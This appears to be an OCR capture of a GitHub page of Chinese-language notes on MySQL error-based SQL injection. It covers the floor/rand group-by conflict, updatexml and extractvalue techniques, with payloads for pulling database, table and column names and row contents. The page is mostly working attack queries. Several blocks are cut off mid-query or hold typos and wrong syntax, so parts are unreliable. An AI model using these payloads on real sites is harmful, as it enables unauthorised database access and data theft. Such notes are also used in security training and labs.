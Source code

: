 ##### 報錯注入
######  floor报错
```
//floor,count,group by冲突报错
select count(*),floor(rand(0)*2)x from security.users group by x

//获取数据库名
select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x;

//获取表名
select count(*),concat((select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x;

//获取字段名
select count(*),concat((select column_name from information_schema where where table_schema='库名' and table_name='表名'),floor(rand(0)*2))x from information_schema.tables group by x;

//获取内容
select count(*),concat((select '字段名' from '表名' limit 0,1),floor(ra
```

###### UpdateXml报错注入

```
更新xml文件
符号为‘~’

//查询表名
select updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 3,1)),0);

//查询字段
select updataxml(0,concat(0x7e,(select concat(column_name) from information_schema.column where table_schema=database() and table_name='表名' limit 0,1)),0);

//获取内容
select updatexml(0,concat(0x7e,(select concat('字段名') from '表名' 
```

###### extractvalue報錯

```
对xml查询函数
和updatexml基本一致，前面符号有变‘/’
//查询表名
select extractvalue(0,concat(0x5c,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 3,1)),0);

//查询字段
select extractvalue(0,concat(0x5c,(select concat(column_name) from information_schema.column where table_schema=database() and table_name='表名' limit 0,1)),0);

//获取内容
select extractvalue(0,concat(0x5c,(select concat('字段名') from '表名' li
```
